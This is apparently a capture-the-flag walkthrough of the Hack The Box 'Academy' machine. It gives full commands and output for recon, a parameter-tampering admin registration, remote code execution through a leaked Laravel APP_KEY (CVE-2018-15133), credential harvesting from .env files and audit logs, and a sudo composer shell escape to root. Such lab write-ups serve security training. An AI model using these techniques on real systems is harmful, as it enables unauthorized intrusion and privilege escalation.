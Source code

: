 # Academy

Academy is a easy HTB lab that focuses on web vulnerability, information disclosure and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Recon
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.72.136
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-30 11:02 GMT
Nmap scan report for 10.129.72.136
Host is up (0.087s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c090a3d835256ffa3306cf8013a0a553 (RSA)
|   256 2ad54bd046f0edc93c8df65dabae7796 (ECDSA)
|_  256 e16414c3cc51b23ba628a7b1ae5f4535 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.61 seconds
```

Checking the website:
```
$ curl -I 10.129.72.136
HTTP/1.1 302 Found
Date: Tue, 30 Jan 2024 11:03:25 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://academy.htb/
Content-Type: text/html; charset=UTF-8
```

Adding new domains found to `/etc/hosts`.
```
sudo tee --append /etc/hosts <<< "10.129.72.136 academy.htb"
```

Enumerating the files and folders on the website:
```
$ feroxbuster -u http://academy.htb/ -A -k -d 10 --filter-status 404 --smart --output web.txt -w /usr/share/wordlists/dirb/big.txt
200      GET      141l      226w     2627c http://academy.htb/login.php
200      GET      148l      247w     3003c http://academy.htb/register.php
200      GET       60l      123w     5261c http://academy.htb/images/logo.svg
200      GET       76l      131w     2117c http://academy.htb/
301      GET        9l       28w      311c http://academy.htb/images => http://academy.htb/images/
[####################] - 14s    40997/40997   0s      found:5       errors:0
[####################] - 12s    20482/20482   1644/s  http://academy.htb/
[####################] - 5s     20482/20482   3766/s  http://academy.htb/images/

$ feroxbuster -u http://academy.htb/ -A -k -d 10 --filter-status 404 --smart --output web.txt -w /opt/useful/SecLists/Discovery/Web-Content/raft-medium-files.txt
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       76l      131w     2117c http://academy.htb/
200      GET      141l      226w     2627c http://academy.htb/login.php
200      GET      148l      247w     3003c http://academy.htb/register.php
200      GET        0l        0w        0c http://academy.htb/config.php
200      GET       18l      188w     8276c http://academy.htb/images/logo.png
200      GET      141l      227w     2633c http://academy.htb/admin.php
200      GET       60l      123w     5261c http://academy.htb/images/logo.svg
200      GET       76l      131w     2117c http://academy.htb/index.php
200      GET      366l     2478w   164846c http://academy.htb/Modules_files/*
```

### Attack
We can see there are two login pages, assuming one `login.php` for user and another one `admin.php` for admin. There is also a `register.php` page to add new user.

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

uid=test2&password=test&confirm=test&roleid=0
```

In this request, we can see a `roleid` which not there on the form. This paramater can be modified. Changed the roleId to 1 and it worked. Once the roleId was changed then we can login for that user on http://academy.htb/admin-page.php .

From the website after admin login, we geth following information:
* title - `Academy Launch Planner`
* `Fix issue with dev-staging-01.academy.htb`

Adding this new domain to list.
```
sudo tee --append /etc/hosts <<< "10.129.72.136 dev-staging-01.academy.htb"
```

Opening the website `dev-staging-01.academy.htb` shows us erros page. This page gives us following information:
* DOCUMENT_ROOT "/var/www/html/htb-academy-dev-01/public"
* SERVER_SOFTWARE "Apache/2.4.41 (Ubuntu)"
* APP_NAME "Laravel"
* APP_ENV "local"
* APP_KEY "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
* APP_DEBUG "true"
* DB_CONNECTION "mysql"
* DB_HOST "127.0.0.1"
* DB_PORT "3306"
* DB_DATABASE "homestead"
* DB_USERNAME "homestead"
* DB_PASSWORD "secret"

Since the app key is leaked, searching online will show us that this website running is Laravel which is vulnerable to `CVE-2018-15133` exploit.
```
git clone https://github.com/aljavier/exploit_laravel_cve-2018-15133.git
cd exploit_laravel_cve-2018-15133
python3 pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive

$ whoami
www-data
```

### User

Enumerating the machine:
```
$ ls /home
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

Checking out the files and folder, we found somethig different in following `.env` file in `/var/www/html/academy/` folder.
```
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=my****************!!
```
Testing this password against all logins, we find that `cry0l1t3:my****************!!` works.

Getting the flag:
```
ssh cry0l1t3@academy.htb
my****************!!
$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Checking the id:
```
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```
Looks like `cry0l1t3` is apart of `adm` so it should have access to logs.

Searching across all logs in `/var/log` folder using `grep -r pass .` but didn't find anything. We can try `aureport` tool to search through logs.
```
$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/20 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/20 02:28:13 84 0 ? 1 su "mrb3n_*******!",<nl>
3. 08/12/20 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/20 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/20 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
...
10. 08/12/20 02:33:26 98 0 ? 1 sh "exit",<nl>
11. 08/12/20 02:33:30 107 0 ? 1 sh "/bin/bash -i",<nl>
12. 08/12/20 02:33:36 108 0 ? 1 bash "istory",<ret>,"history",<ret>,"exit",<ret>
13. 08/12/20 02:33:36 109 0 ? 1 sh "exit",<nl>
```

Got credentials - `mrb3n:mrb3n_*******!`

Relogin through ssh as `mrb3n` and then checking the `sudo -l` for the user:
```
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```
From `https://gtfobins.github.io/gtfobins/composer/`, we got the following an attack path. Executing following commands give us root access:
```
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
# id
uid=0(root) gid=0(root) groups=0(root)
```
Getting the flag:
```
# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
